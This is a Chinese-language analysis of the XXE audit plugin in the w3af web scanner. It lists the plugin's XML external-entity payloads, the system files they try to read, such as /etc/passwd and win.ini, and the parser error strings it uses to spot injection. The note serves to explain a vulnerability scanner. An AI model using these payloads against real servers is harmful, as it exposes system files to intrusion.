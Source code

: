 # w3af xxe 漏扫规则分析

文件位置
https://github.com/andresriancho/w3af/blob/master/w3af/plugins/audit/xxe.py

## 说明

将正常请求中的 URL 参数替换为类似如下的 payload 。

使用的 payload

```
通用检测 payload

1
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "%s"> ]><x>&xxe_test;</x>

2
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "%s"> ]><x>&xxe_test;</x>

3
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "%s">]><foo>&xxe_test;</foo>

4
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file://%s"> ]><x>&xxe_test;</x>

5
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///%s"> ]><x>&xxe_test;</x>


4 与 5 的区别是 file:// 与 file:/// 的区别




其中 %s 会被替换

Windows 环境可能成功的路径 
'%SYSTEMDRIVE%\\boot.ini',
'%WINDIR%\\win.ini',

Linux 环境可能成功的路径 
'/etc/passwd',

还会尝试替换为远程文件
'http://w3af.org/xxe.txt'


```


以上 payload 的发送，可能会触发 XML Parser 的一些报错信息。

https://github.com/andresriancho/w3af/blob/master/w3af/plugins/audit/xxe.py#L84-L124


```python
XML_PARSER_ERRORS = [
    # PHP
    'xmlParseEntityDecl',
    'simplexml_load_string',
    'xmlParseInternalSubset',
    'DOCTYPE improperly terminated',
    'Start tag expected',
    'No declaration for attribute',
    'No declaration for element',

    # libxml and python
    'failed to load external entity',
    'Start tag expected',
    'Invalid URI: file:///',
    'Malformed declaration expecting version',
    'Unicode strings with encoding',

    # java
    'must be well-formed',
    'Content is not allowed in prolog',
    'org.xml.sax',
    'SAXParseException',
    'com.sun.org.apache.xerces',

    # ruby
    'ParseError',
    'nokogiri',
    'REXML',

    # golang
    'XML syntax error on line',
    'Error unmarshaling XML',
    'conflicts with field',
    'illegal character code'

    # .NET
    'XML Parsing Error',
    'SyntaxError',
    'no root element',
    'not well-formed',
]
```

此外，插件还会根据现有的 XML 参数内容构造新的 payload 。

如果服务端响应中包含报错信息，说明此处存在潜在的 XML 注入的可能性。